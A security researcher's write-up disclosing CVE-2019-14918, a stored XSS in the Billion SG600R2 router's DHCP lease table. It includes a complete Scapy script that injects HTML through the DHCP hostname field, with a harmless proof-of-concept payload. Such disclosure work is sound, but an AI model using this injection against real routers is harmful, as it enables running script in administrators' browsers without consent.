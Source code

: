 This is the third of three mini-posts where I will write about some fun discoveries

- 1/3: [Dissecting a ~~piñata~~Router](https://github.com/MarioBartolome/ForFun/blob/master/HW-Hacking/Dissecting-a-router.md)
- 2/3: [CVE-2019-14919, CVE-2019-14920. Inspecting a router's firmware and reversing binaries to achieve RCE](https://github.com/MarioBartolome/ForFun/blob/master/HW-Hacking/Firmware-Inspection.md)
- 3/3: **CVE-2019-14918. Stored XSS via DHCP injection**


# 0x03 Stored XSS via DHCP injection

This is kinda cool :) I really enjoyed exploiting this kind of vulnerability. 

A stored XSS allows an attacker to *permanently* store code into a website, thus, allowing to achieve code execution on the client side, just by visiting the affected site.

When found, it's usually making use of the parameters on a request. But this one requires a little bit more to accomplish the injection. 

## The scene

When accessing a router's administration web interface, we're usually presented with a simple menu on the left, and a table containing the DHCP leases the router has granted. 

Those DHCP leases usually show the device name, the assigned IP address, sometimes the device's MAC address and the lease remaining time.
This case is no different. When logged in, the DHCP table is shown, and the different clients that requested an IP address lease are listed on it. 

So my twisted mind starts to twist...

## Injecting in the name of...

A DHCP request can be composed by various fields, but for the sake of simplicity I will only list the needed ones here: 

- Message Type: This field sets the kind of query we'll be sending (it could be a **request**, a discover, a decline, a release...).
- Requested IP Address: This is the IP address we'll be requesting.
- A HostName (this is our injection point).
- End of query. 

Check the [RFC2131](https://tools.ietf.org/html/rfc2131) if you want a ton of information to choke on.


## Scapy to the rescue

So, how to send this kind of packet with such a customization? Scapy will be my weapon of choice for this kind of matter. 

Scapy, is a Python library that allows to forge a vast amount of protocols. It's able to compose every layer of a protocol, in this case, we will create the following layers: 

- Ethernet
- IP
- UDP
- BOOTP
- DHCP

```python
from scapy.all import get_if_raw_hwaddr, mac2str, Ether, IP, UDP, BOOTP, DHCP, sendp
```


### Ethernet layer

The first layer to assemble is the Ethernet layer. By default, Scapy will provide with the optional parameters, so only the source and destination MAC addresses are needed on this step. 

To issue a DHCP request, the destination MAC address should be the broadcast one (`FF:FF:FF:FF:FF:FF`), and the source one our own MAC address.

```python
fam, my_mac = get_if_raw_hwaddr("eth0")
brdcast_mac = mac2str("ff:ff:ff:ff:ff:ff")

ether_layer = Ether(src=my_mac, dst=brdcast_mac)
```

### IP layer

The second layer to assemble is the IP layer. Again, Scapy will take care of most of the parameters and we'll only need to issue the source and destination. The source address should be set to `0.0.0.0` and the destination address should be set to the network broadcast address `255.255.255.255`.

```python
ip_layer = IP(src="0.0.0.0", dst="255.255.255.255")
```
That's it for this layer!

### UDP layer

The third layer will define the kind of transmission protocol to use. DHCP should be driven on a state-less manner, so UDP must be used. The layer must set the source and destination port. The DCHP request must come from port 68 and the server is likely to be running at port 67.

```python
udp_layer = UDP(sport=68, dport=67)
```

### BOOTP layer

DHCP is an extension of BOOTP, so in this layer we will only define the client MAC address. 

```python
bootp_layer = BOOTP(chaddr=my_mac)
```

### DHCP layer

Finally! The interesting stuff. As stated before, the `message-type`, `requested_addr`, `hostname` and `end` fields will be defined. That way the server will be happy with the request, and will attempt to issue a lease for us, adding a new entry to the DHCP table visible on the web interface, aaaaand the injection will take place. 

```python
dhcp_layer = DHCP(options=[
	('message-type', 'request'),
	('requested_addr', '192.168.5.100'),
	('hostname', '</td><h1>0xMrIO'),  # Here's where the injection takes place! 
	'end',
	'\x00' * 11
	]
)
```

As shown above, the `'hostname'` parameter performs the injection against the DHCP lease table.
What's that `\x00' * 11`? A padding. The server running on this router wouldn't be ok without a packet size divisible by 16.

## To summarize

Scapy allows to assemble the whole packet by *dividing* its layers. Every layer in Scapy has overloaded the division operator to achieve packet assembly.

So the whole code would be like:

```python
from scapy.all import get_if_raw_hwaddr, mac2str, Ether, IP, UDP, BOOTP, DHCP, sendp
fam, my_mac = get_if_raw_hwaddr("eth0")
brdcast_mac = mac2str("ff:ff:ff:ff:ff:ff")

ether_layer = Ether(src=my_mac, dst=brdcast_mac)
ip_layer = IP(src="0.0.0.0", dst="255.255.255.255")
udp_layer = UDP(sport=68, dport=67)
bootp_layer = BOOTP(chaddr=my_mac)
dhcp_layer = DHCP(options=[
	('message-type', 'request'),
	('requested_addr', '192.168.5.100'),
	('hostname', '</td><h1>0xMrIO'),  # Here's where the injection takes place! 
	'end',
	'\x00' * 11
	]
)

dhcp_request = ether_layer / ip_layer / udp_layer / bootp_layer / dhcp_layer

sendp(dhcp_request)
```

By keeping WireShark listening on the desired interface, we can note how the packet sent is a successful DHCP request, and is properly answered by the DHCP server running in the router. 

![DHCP Req and ACK](https://user-images.githubusercontent.com/23175380/64935620-8e6df700-d852-11e9-9abd-759997a711fe.png)

---

And finally, the DHCP lease table is altered, and our code was successfully injected: 

![DHCP lease table modified](https://user-images.githubusercontent.com/23175380/64935660-c2e1b300-d852-11e9-9e50-67d00b0b3a32.png)


1. Is the `<h1>0xMrIO` injection.
2. That's the point where the hostname should be stored. 
3. That's the `</td>` issued to close that table field.

---

**Affected product/version:** Billion Smart Energy Router SG600R2. Firmw v3.02.rc6
- CVE-2019-14918

